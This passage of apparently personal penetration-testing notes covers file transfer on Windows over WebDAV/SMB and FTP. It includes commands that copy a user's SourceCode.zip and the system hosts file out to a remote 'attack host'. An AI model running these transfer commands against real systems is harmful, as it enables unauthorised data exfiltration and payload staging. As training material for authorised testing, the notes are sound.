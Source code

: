 2. **Connecting to the Webdav Share**. DavWWWRoot isn't a folder, it's a special keyword that tells WebDAV that we are connection to the root of WebDav server. You could use any existing directory when you are connecting, as example `sharefolder`
```powershell
C:\carnifex17> dir \\13.13.13.13\DavWWWRoot
```
3. **Uploading Files using SMB**
```powershell
C:\carnifex17> copy C:\Users\john\Desktop\SourceCode.zip \\13.13.13.13\DavWWWRoot\
C:\carnifex17> copy C:\Users\john\Desktop\SourceCode.zip \\13.13.13.13\sharefolder\
```

### FTP Downloads
- **Installing FTP Server python3 module**
```bash
sudo pip3 install pyftpdlib
```
1. **Setting up a Python3 FTP Server**
```bash
sudo python3 -m pyftpdlib --port 21
```
2. **Transferring Files from an FTP Server Using Powershell**
```powershell
PS C:\carnifex17> (New-Object Net.WebClient).DownloadFile('ftp://13.13.13.13/file.txt', 'C:\Users\Public\ftp-file.txt')
```
3. **Create a Command File for the FTP Client and Download the Target File**
```bash
C:\carnifex17> echo open 13.13.13.13 > ftpcommand.txt
C:\carnifex17> echo USER anonymous >> ftpcommand.txt
C:\carnifex17> echo binary >> ftpcommand.txt
C:\carnifex17> echo GET file.txt >> ftpcommand.txt
C:\carnifex17> echo bye >> ftpcommand.txt
C:\carnifex17> ftp -v -n -s:ftpcommand.txt
ftp> open 13.13.13.13
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\carnifex17>more file.txt
This is a test file
```

### FTP Uploads
For this we would also use `peftpdlib` but we need to specify the option --write to allow clients to upload files to our attack host.
1. **Starting FTP Server**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
2. **Powershell Upload File**
```powershell
PS C:\carnifex17> (New-Object Net.WebClient).UploadFile('ftp://13.13.13.13/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
3. **Create a Command File for the FTP Client to Upload a File**
```powershell
C:\carnifex17> echo open 192.168.49.128 > ftpcommand.txt
C:\carnifex17> echo USER anonymous >> ftpcommand.txt
C:\carnifex17> echo binary >> ftpcommand.txt
C:\carnifex17> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\carnifex17> echo bye >> ftpcommand.txt
C:\carnifex17> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
```